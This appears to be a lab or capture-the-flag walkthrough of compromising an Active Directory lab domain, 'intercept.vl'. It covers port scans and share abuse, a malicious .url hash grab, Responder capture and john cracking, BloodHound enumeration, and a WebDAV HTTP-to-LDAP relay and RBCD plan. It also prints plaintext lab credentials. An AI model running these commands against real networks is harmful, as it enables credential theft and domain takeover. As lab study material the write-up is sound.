







```
Host is up (0.039s latency).
Not shown: 988 filtered ports
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server


Host is up (0.038s latency).
Not shown: 996 filtered ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
```


```
└─# crackmapexec smb ip_                                  
SMB         10.10.240.102   445    WS01             [*] Windows 10 / Server 2019 Build 19041 x64 (name:WS01) (domain:intercept.vl) (signing:False) (SMBv1:False)
SMB         10.10.240.101   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:intercept.vl) (signing:True) (SMBv1:False)
```


### INITIAL_ACCESS


There's Guest level access in WS01 , Where guest can read/write in dev shared workspace.







Cool ! The user's gonna check the shares regularly ! Now, we can do some attacks like : 
--> Grab Ntlm hash and crack ;
--> Relay the hash and authenticate 
	--> smb relaying 
	--> ldap relaying


```
└─# python hashgrab.py 10.8.0.148 grab
```



Then Upload @grab.url to the victim share , and wait for the interaction opening Responder !

```
└─# responder -I tun0 -v 
```




Then , Just crack the credentials !

```
└─# john --wordlist=/usr/share/wordlists/rockyou.txt kathryn.spencer_hash 
```




Cool ! 
--> Now lets check the access of this user ! 
--> Run BloodHound !

```
└─# crackmapexec smb ip_ -u Kathryn.Spencer -p Chocolate1
```

```
└─# bloodhound-python --username Kathryn.Spencer --password Chocolate1 --domain intercept.vl --nameserver 10.10.240.101 --domain-controller DC01.intercept.vl --collectionmethod all --zip
```


### WebDav HTTP Relaying

Let’s think, how could we take over WS01? We are `not a local admin` and we `cannot RDP`… Coerce attacks are a real nuisance nowadays, however, `SMB signing is enforced` on the Domain Controller, this `completely mitigates` any `SMB -> SMB` or `SMB -> LDAP` relaying to the DC.

However, since this is a workstation, all Windows 10 machines come pre-installed with the `WebClient service`, it may not be active by default, but there are ways to trigger it. If WebClient was running on that computer, somehow coercing the computer account to authenticate back to us via WebDav, could allow us relaying from `HTTP -> LDAP`, even if SMB signing is `enabled`, but we would also need `LDAP signing to not be enforced`. Let’s check it out.

We can use CrackMapExec’s webdav and ldap-checker modules to verify it, and it looks like the `WebClient is running`!

 [Youtube](https://www.youtube.com/watch?v=axPkf_kLpMA)


```
└─# crackmapexec smb ip_ -u Kathryn.Spencer -p Chocolate1 -M webdav
```




```
└─# crackmapexec ldap dc01 -u Kathryn.Spencer -p Chocolate1 -M ldap-checker
```




1 --> add our host to their dns entry ;
2 --> start responder [ turn off http and smb ]
3 --> start ntlmrelay [--delegate-access ]
4 --> PetitPotam or printerbug [attack the webclient .]
5 --> Get HTTP --> LDAP access [ RBCD / S4u Proxy attack]
6 --> Generate Tickets impersonating administrator !


Simon.Bowen   ::   b0OI_fHO859+Aw
